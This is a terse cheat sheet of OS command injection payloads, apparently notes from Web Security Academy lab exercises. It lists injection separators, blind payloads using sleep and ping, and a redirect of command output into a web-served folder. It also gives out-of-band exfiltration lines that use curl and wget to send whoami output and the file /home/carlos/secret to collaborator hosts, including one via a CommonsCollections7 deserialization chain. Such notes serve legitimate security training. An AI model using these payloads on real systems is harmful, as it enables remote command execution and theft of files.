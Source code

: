 Simple
```
||
;
&&
```
Blind
```
test%40test.com||sleep+5||
test%40test.com||ping+-c+5||
```
Write commands in accesible folder: /var/www/images/
```
whoami > /var/www/images/
https://0a2f008a032675868187b28600ba00d0.web-security-academy.net/image?filename=test.txt
```
Exifltrate data with out of band
```
||curl+`whoami`.00y7e29ks339nxuskhes4q429tfk3br0.oastify.com||
```
Exifltrate Data like a pro
```
"``/usr/bin/wget --post-file /home/carlos/secret https://y54nvieai2tvgmz11xb2hj1pkgq9e12q.oastify.com``"

CommonsCollections7 'curl --data @/home/carlos/secret <your burp collaborator address>'

```

